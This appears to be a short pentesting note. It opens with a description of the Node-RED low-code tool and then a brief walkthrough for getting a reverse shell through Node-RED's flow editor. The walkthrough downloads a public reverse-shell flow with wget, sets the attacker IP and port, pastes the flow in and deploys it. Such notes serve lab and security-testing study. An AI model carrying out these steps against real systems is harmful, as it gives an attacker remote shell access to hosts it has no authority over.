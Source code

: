**Node-RED** is a [flow-based](https://en.wikipedia.org/wiki/Flow-based_programming "Flow-based programming"), [low-code](https://en.wikipedia.org/wiki/Low-code_development_platform "Low-code development platform") development tool for [visual programming](https://en.wikipedia.org/wiki/Visual_programming_language "Visual programming language") developed originally by [IBM](https://en.wikipedia.org/wiki/IBM "IBM") for wiring together hardware devices, [APIs](https://en.wikipedia.org/wiki/Application_programming_interface "Application programming interface") and [online services](https://en.wikipedia.org/wiki/Online_services "Online services") as part of the [Internet of things](https://en.wikipedia.org/wiki/Internet_of_things "Internet of things").[[3]](https://en.wikipedia.org/wiki/Node-RED#cite_note-3)

Node-RED provides a [web browser](https://en.wikipedia.org/wiki/Web_browser "Web browser")-based flow editor, which can be used to create [JavaScript](https://en.wikipedia.org/wiki/JavaScript "JavaScript") functions. Elements of applications can be saved or shared for re-use. The runtime is built on [Node.js](https://en.wikipedia.org/wiki/Node.js "Node.js"). The flows created in Node-RED are stored using [JSON](https://en.wikipedia.org/wiki/JSON "JSON"). Since version 0.14, [MQTT](https://en.wikipedia.org/wiki/MQTT "MQTT") nodes can make properly configured [TLS](https://en.wikipedia.org/wiki/Transport_Layer_Security "Transport Layer Security") connections.

# Generating a Reverse Shell
We can stablish reverse connection by using this tool.
````
wget https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json
````

We need to change the host and port with our attacker IP
![[Pasted image 20240406120025.png]]
![[Pasted image 20240406120223.png]]

We can copy all this json modified directly in the tool

![[Pasted image 20240406120433.png]]
![[Pasted image 20240406120515.png]]![[Pasted image 20240406120601.png]]

Deploy and I should get a console
![[Pasted image 20240406120723.png]]
